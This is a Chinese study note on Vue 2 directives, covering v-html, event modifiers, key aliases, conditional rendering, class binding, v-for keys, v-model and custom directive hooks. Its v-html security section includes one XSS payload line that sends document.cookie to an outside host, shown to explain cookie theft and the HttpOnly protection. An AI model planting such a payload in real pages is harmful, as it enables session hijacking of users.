

## v-cloak

外部js脚本引入的 位置，会影响加载的顺序；`v-cloak`阻止未经加载完的结构渲染到页面上

- 添加了`v-cloak`的元素，在Vue.js 实例创建、加载完成后，将去除这个`v-cloak` 属性
- 所有可以在DIV上添加`v-cloak`使其在为加载完时 `[v-cloak]:{display:none}` 隐藏其存在
- 而加载完后，去除了这个属性，DIV就露出来了

## v-once

只读取 元素的初始值，即第一次取的值

- `v-once`所在节点，在初次动态渲染后，就视为静态内容
- 所以数据的改变不会引起所在节点的更新，可以用于优化性能

## v-pre

Vue跳过所在节点的编译

-  应用于没有指令语法、没有使用插值语法的节点，会加快编译

## 内容绑定

### V-text

- v-text指令的作用是：设置标签的内容（textContent）[类似innerText]
- 默认写法会 <u>替换全部内容</u>，使用差值表达式`{{ }}`可以替换指定内容
- 设置标签的内容 （以字符串，全部输出），支持表达式

### V-html

- v-html指令的作用是：设置元素的innerHTML
- 内容中有htm结构，会被解析为标签
- v-text指令无论内容是什么，只会解析为文本

1. 部分替换标签内容: `{{ }}`这种写法
2. <u>全部替换</u> 标签内容: v-text和x-html

**解析文本使用v-text，解析html结构使用v-html**

### 安全性问题

1. 在网站上动态渲染任意的HTML都是非常危险的，容易导致XSS攻击

2. `v-html:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie></a>`

   在页面上获取 cookie，并携带跳转，将伪装登录

3. 浏览器保护机制：cookie 设置 `HttpOnly` — 该 cookie 禁止 JavaScript 读取（`document.cookie` 拿不到），但仍会随请求自动发送


## 事件处理

### 绑定 v-on:

```js
new Vue({
    methods:{
        functionName(even){
            // 第一个参数 默认是【点击事件】
            // this是 调用者vm
        },
        functionName2:(event) => {
            // 第一个参数 默认是【点击事件】
            // this是 调用者window -- 不应该
        }
        functionName3(a,event){
            // 第一个参数 是传递的参数
    		// 第二个参数 是点击事件
            // this是 调用者vm、组件对象
        }
    }
})

<button v-on:click="functionName"> 点击按钮，调用函数 </button>
<button @click="functionName3(555,$event)"> 点击按钮，调用函数 </button>
```

- 所有被Vue管理的函数，都应该是普通函数

- `v-on:`元素绑定事件

- 事件名不需要写on，指令可以简写为`@click`,`@dblclick`

- 绑定的方法定义在methods属性中

  事件绑定可写为函数调用形式，可传入自定义参数

- <u>给谁绑定，找谁触发</u>

### 事件修饰符

事件修饰符可以连着写，按书写顺序依次生效：	`@click.prevent.stop`

1. **阻止默认事件  `.prevent`**

```html
<div id="root">
    <a href="http://baidu.com" @click="showInfo">点我显示提示信息</a>
    <!-- 2. 事件修饰符.prevent 阻止默认事件 -->
    <a href="http://baidu.com" @click.prevent="showInfo">点我显示提示信息</a>
</div>
```

```js
const vm =  new Vue({
    el:'#root',
    methods:{
        showInfo(e){
            e.preventDefault(); // 1. 阻止 默认事件（原生写法）
            alert("hello!")
        }
    }
})
```

2. 阻止事件冒泡 `.stop`

   事件冒泡：父节点和子节点同有事件，点击子节点时，事件会向父级一级一级（相同事件）发生，直至根节点。（冒泡是向外发生的，但触发的target依然是子节点）

```html
<div id="root" @click="showInfo">
    <button @click="showInfo">点我 </button>
    <!-- 2. 事件修饰符.stop 阻止冒泡事件: 给子元素加 -->
    <button @click.stop="showInfo">点我 </button>
</div>
```

```js
const vm =  new Vue({
    el:'#root',
    methods:{
        showInfo(e){
            e.stopPropagation(); // 1. 阻止 冒泡事件（原生写法）
            alert("hello!")
        }
    }
})
```

3. **事件只触发一次 `.once`**

```html
<div id="root" @click="showInfo">
    <button @click.once="showInfo">点我 </button>
</div>
```

4. **使用事件的捕获阶段 `.capture`**

   事件捕获：父节点和子节点同有事件，点击子节点时，是从父节点一级一级向内捕获目标元素的。（捕获是向内的）

   在捕获期间就处理事件 — 向父级、再子级

```html
<div id="root">
    <div class="box1" @click.capture="showMsg(1)"> // 加了.capture后，打印 1 2
        div1
        <div class="box2" @click="showMsg(2)">div2</div> // 点击div2，打印 2 1
    </div>
</div>
```

```js
const vm = new Vue({
    el: '#root',
    methods: {
        showMsg(value) {
            console.log(value);
        }
    }
})
```

5. **只有`event.target`是当前的元素，才可以触发`click`的事件  `.self`**

```html
<div id="root" @click.self="showInfo($event,1)"> // 有self时，点子按钮只输出 2（target 是 button，不满足 self）
    <button @click="showInfo($event,2)">点我 </button>  // 没有self时，2 1（先子后父冒泡）
</div>
```

```js
const vm = new Vue({
    el:"#root",
    data:{},
    methods:{
        showInfo(e,value){
            console.log(e.target,value);
        }
    }
})
```

6. **事件默认行为立即执行，无需等待事件回调  `.passive`**

   一般情况下，事件触发后，处理完成，才会再回来执行新的触发事件 — 移动端项目使用较多

### 键盘和鼠标事件

1. 鼠标事件： `@Wheel`— 鼠标滚轮
2. 键盘事件：
   1. keydown：在键盘上按下某个键时触发。
      - 如果按住某个键，会不断触发该事件，
      - 该事件处理函数返回 false 时，会取消默认的动作（如输入的键盘字符，在 IE 和 Safari 浏览器下还会禁止keypress 事件响应）。
   2. keypress：按下某个键盘键并释放时触发。
      - 如果按住某个键，会不断触发该事件。
      - 该事件处理函数返回 false 时，会取消默认的动作（如输入的键盘字符）。
   3. keyup：释放某个键盘键时触发。
      - 该事件仅在松开键盘时触发一次，不是一个持续的响应状态。
3. 在键盘输入某个值时，触发函数

```html
<div id="root" @click.self="showInfo($event,1)">
    <!-- 原生js解决 -->
    <input type="text" placeholder="按下回车，显示输入内容" @keyup="showInfo">
    <!-- Vue添加事件修饰符 .enter -->
    <input type="text" placeholder="按下回车，显示输入内容" @keyup.enter="showInfo">
</div>
```

```js
const vm = new Vue({
    el:"#root",
    data:{},
    methods:{
        showInfo(e){
            // if(e.keyCode !== 13) return;  原生js解决
            console.log(e.target.value);
        }
    }
})
```

### 按键别名

1. Vue中提供的 常用按键别名：

| 按键 | 键名  | 按键                   | 键名   |
| ---- | ----- | ---------------------- | ------ |
| 回车 | enter | 删除（“退格”、“删除”） | delete |
| 退出 | esc   | 空格                   | space  |
| 换行 | tab   |                        |        |
| 上   | up    | 下                     | down   |
| 左   | left  | 右                     | right  |

tab 将焦点从当前元素切走，没抬起来就失去焦点了，程序检测不到；使用`@keydown.tab`，一按下就检测到

2. Vue中未提供的，可以使用原始keyCode绑定（不建议）、或需要转为caps-lock（两个单词组成，都小写，中间`-`隔开）

3. 系统修饰键（用法特殊） — CTRL、alt、shift、meta
   1. `keyup`:  按下修饰键的同时，需要再按下另一个其他键，释放其他键，事件才会触发
   2. `keydown`：按下修饰键，正常触发
   3. 两个键配合触发 `.ctrl.y`
4. 自定义别名： `Vue.config.keyCodes.自定义键名 = 键码`

## 显示绑定

### V-show

- 设置数据是否显示
- **DOM标签仍然存在**，不能用于权限操作，样式隐藏，位置不保留
- 与`<template>`组队使用，无效
- 频繁切换使用

### V-if

- 使用布尔值判断，直接作用于数据标签是否存在
- **DOM标签在false值时，直接被移除**， 建议与`<template>`组队使用
- 不频繁切换使用，单次判断（与v-else、v-else-if使用时不能打断）

## 绑定属性

### V-Bind

1. 语法

```html
	// 完整写法: v-bind:属性名,简写:属性名
	
	
	
	
```

- 需要动态增删class，建议使用对象的方式

2. 绑定方式: 对象语法(`:class=对象名`)

   - 对象名:
     1. `'key':value`
     2. `'className':boolean`：如果boolean值为真,则显示改类名;否则为空
     3. `className: functionName()` — return className（可返回多个样式类名）
   - 用法:
     1. 直接绑定 `<h2 :class="{'active':isActive}"> hello </h2>`
     2. 判断传入多个值 `<h2 :class="{'active':isActive, 'line':isLine}"> hello </h2>`
     3. 与普通的类同时存在 `<h2 class='title' :class="{'active':isActive}"> hello </h2>`
     4. 将参数放入方法/计算 `<h2 :class="classes"> hello </h2>` 。

3. 绑定方式: 数组语法(`:class=数组`)

   - 参数:

   1. 参数为`'active'`时,作为字符串
   2. 参数为`active`时,作为变量

   - 用法
     1. 直接绑定 `<h2 :class="[active]">Hello world</h2>`
     2. 传入多个值 `<h2 :class="[active,line]">Hello world</h2>`
     3. 与普通的类同时存在 `<h2 class="title" :class="[active,line]">Hello world</h2>`
     4. 将参数放入方法/计算 `<h2 class="title" :class="classes">Hello world</h2>`

4. 绑定多个属性值：（引入组件需要多个配置值时）

   1. `v-bind="{ marginTop: '5px', background: '#333' }"`

## 列表渲染

### 列表循环 v-for

- 想生成谁，就在谁身上使用for

```html
<div id="root">
    <ul>
        <!-- 【遍历数组】 -->
        <li v-for="(item, id) in person" :key="id">{{item.name}} + {{item.id}}</li>
        <!-- 【遍历对象】先值，后键 -->
        <li v-for="(value, key) in car" :key="key">{{key}} :: {{value}}</li>
        <!-- 【遍历字符串】先字母，再下标 -->
        <li v-for="(item, index) in str" :key="index">{{item}} -- {{index}}</li>

    </ul>
</div>
```

- 根据数据生成列表结构
- 结合的数据类型可为: **数组**，对象，数字，字符串（Vue2 的 `renderList` 不支持 Map/Set 迭代器）
- `(item,index) in 数据` 可自动生成数据个数的列表标签,内容为item,索引以0开始
- 在标签结构内，循环参数可重复使用(在作用域内)
- 响应式: 数组长度的更新同步在页面上

### ! :key

key 指导Vue的虚拟DOM算法diff时，区别是不同的元素，从而避免被认为重复对象而被移除

- key给Vue虚拟DOM算法diff使用，生成真实的DOM时`:key`会被删除掉

- index作为key时，涉及逆序插入、逆序删除元素时，

1. 结构中如果有 <u>输入类的DOM</u> 会产生歧义，产生错误DOM更新

2. 导致没有必要的真实DOM更新

   如果不涉及破坏顺序的操作，仅用于渲染列表展示，可以使用`:key = "index"`



## 数据绑定

### 单项数据绑定 v-bind

页面改变值，不会影响Vue.data中的值；Vue.data中的值如果改变，页面的值也会动态绑定

### 双向数据绑定 V-model

页面改变值，会影响Vue.data的值；同样相关的页面也会变化

- 只能应用于 **输入类元素** ，（有value值的元素：input等）获取和设置**表单**元素的值（双向数据绑定）
- 简写：`v-model="message"`；`v-model:value="message"` 是 Vue 3 写法，Vue 2 中只有 `v-model`
- 绑定的数据和表达元素的值相关联


## 自定义指令

1. 命名：

   1. 调用时：使用 `v-XXX`

      多个单词组成时，不识别大写字母，**使用 - 分隔**

   2. 定义时：不用加 `v- `， 直接`XXX`

      多个单词组成时，使用 **'字段串'** 包起来表示

2. this指向 — directives的this 都指向window

   使用Vue中的数据，需要从绑定的指令中传过来

3. 钩子函数：

   1. **`bind`**：只调用一次，指令第一次绑定到元素时调用。

      - （在内存中建立关系）此时的元素还未加载到页面，许多操作无效

      - 可以设置 样式、值、绑定方法等

   2. **`inserted`**：被绑定元素插入父节点时调用 (仅保证父节点存在，但<u>不一定已被插入文档</u>中)。

      - 可以设置 获取焦点、操作父元素等

   3. **`update`**：所在组件的 VNode 更新时调用，**但是可能发生在其子 VNode 更新之前**。

      - 将覆盖 插入页面时的指令效果

      - 再次执行时，元素已经加载到页面上了

   4. `componentUpdated`：指令所在组件的 VNode **及其子 VNode** 全部更新后调用。

   5. `unbind`：只调用一次，指令与元素解绑时调用。

4. 传入的参数

   1. **`element`**：指令所绑定的元素，可以用来直接操作 DOM。
   2. `binding` ：一个对象，包含以下属性：
      - `name`：指令名，不包括 `v-` 前缀。
      - **`value`**：指令的绑定值
        - 📜 保存传入的JavaScript 对象字面量，`{ color: 'white' }` — binding.value.color 取值
      - `expression`：字符串形式的指令表达式。例如 `v-my-directive="1 + 1"` 中，表达式为 `"1 + 1"`。
      - `arg`：传给指令的参数，可选。例如 `v-my-directive:foo` 中，参数为 `"foo"`。
      - `modifiers`：一个包含修饰符的对象。例如：`v-my-directive.foo.bar` 中，修饰符对象为 `{ foo: true, bar: true }`。
      - `oldValue`：指令绑定的前一个值，仅在 `update` 和 `componentUpdated` 钩子中可用。无论值是否改变都可用
   3. `vnode`：Vue 编译生成的虚拟节点。移步 [VNode API](https://v2.cn.vuejs.org/v2/api/#VNode-接口) 来了解更多详情。
   4. `oldVnode`：上一个虚拟节点，仅在 `update` 和 `componentUpdated` 钩子中可用。

```js
// Vue 全局定义
Vue.directive('指令名',configObj)
Vue.directive('指令名',callBackFunction)

// 当前组件 局部定义
new Vue({
    directives: {
        big: function (element, binding) {}  // 函数形式，默认只用 bind + update
        fbind: {} // 对象形式，可以配置多钩子
    }
})
```

- 函数形式 与 对象形式的区别 — 没有inserted

  - 获得焦点，需要该结构已经加载到页面上；否则无法获得焦点

  - 控制父元素，需要该结构已经加载到页面上；否则不知道谁是父元

    有一些操作，需要在该结构挂载到DOM上，才能有上下文环境操作